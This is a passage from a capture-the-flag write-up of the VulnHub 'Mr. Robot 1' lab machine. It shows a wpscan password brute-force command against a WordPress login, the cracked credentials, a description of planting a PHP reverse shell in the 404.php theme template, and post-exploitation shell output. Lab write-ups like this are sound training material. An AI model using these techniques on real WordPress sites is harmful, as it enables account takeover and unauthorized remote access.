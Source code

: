 
\newpage
## Phase #2: Exploitation
1\. We confirm that the username is indeed valid from Wordpress error message for incorrect password. We then use `wpscan` to bruteforce password for user `elliot` using the trimmed dictionary file and find a match:  
``` {.python .numberLines}
wpscan --url http://192.168.92.134 -P fsocity.dic.trimmed -U elliot
  [i] Valid Combinations Found:
   | Username: elliot, Password: ER28-0652

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/vulnhub.mrrobot1/screenshot05.png)  

![writeup.exploitation.steps.1.2](Box%20Write-ups/vulnhub.mrrobot1/screenshot06.png)  

2\. We now authenticate as user `elliot` to the Wordpress installation and find that this user has administrative privileges. We can use these privileges to successfully upload a PHP reverse shell by modifying the `404.php` template and gain interactive access on the target system:  

![writeup.exploitation.steps.2.1](Box%20Write-ups/vulnhub.mrrobot1/screenshot07.png)  

![writeup.exploitation.steps.2.2](Box%20Write-ups/vulnhub.mrrobot1/screenshot07a.png)  

![writeup.exploitation.steps.2.3](Box%20Write-ups/vulnhub.mrrobot1/screenshot07b.png)  

![writeup.exploitation.steps.2.4](Box%20Write-ups/vulnhub.mrrobot1/screenshot07c.png)  

![writeup.exploitation.steps.2.5](Box%20Write-ups/vulnhub.mrrobot1/screenshot07d.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
robot@linux> id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux>  
robot@linux> uname
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
robot@linux>  
robot@linux> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:c0:00:97
      inet addr:192.168.92.134  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fec0:97/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:1167588 errors:175 dropped:102 overruns:0 frame:0
      TX packets:1066054 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:928655350 (928.6 MB)  TX bytes:849863574 (849.8 MB)
      Interrupt:18 Base address:0x2000
robot@linux>  
robot@linux> users
root
bitnamiftp
mysql
robot
```
